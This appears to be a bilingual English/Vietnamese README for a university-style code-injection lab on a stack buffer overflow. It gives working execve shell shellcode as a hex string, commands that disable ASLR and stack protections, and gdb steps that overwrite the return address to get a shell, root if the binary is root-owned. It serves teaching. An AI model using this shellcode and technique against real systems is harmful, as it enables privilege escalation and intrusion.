# Tips for code injection lab:
### Shellcode
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the following script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size từ đỉnh stack đến eip khi biên dịch chương trình với option -fno-stack-protector khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomization_va_space=0`)<br>
(Tắt chế độ tạo cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution o stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
### Conducting the attack
1. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
2. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
3. Run program in gdb with injecting argument <br>
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)<br>
`(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`<br>
4. Watch the stack memory from esp (stack top):<br>
(Quan sát bộ nhớ stack từ esp)<br>
`(gdb-peda) x/80xb $esp`
5. Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with value of esp<br>
(Xác định vị trí của địa chỉ trả về trong stack, thay thế `\xff\xff\xff\xff` với địa chỉ của esp)<br>
`set *<address of return address> = <address of esp>`<br>
6. Continue execute program, you should now in the new bash shell:<br>
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)<br>
`(gdb-peda) continue`<br>
`$_` <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  <br>
7. Return to gdb<br>
`$>exit`<br>
`(gdb-peda)`




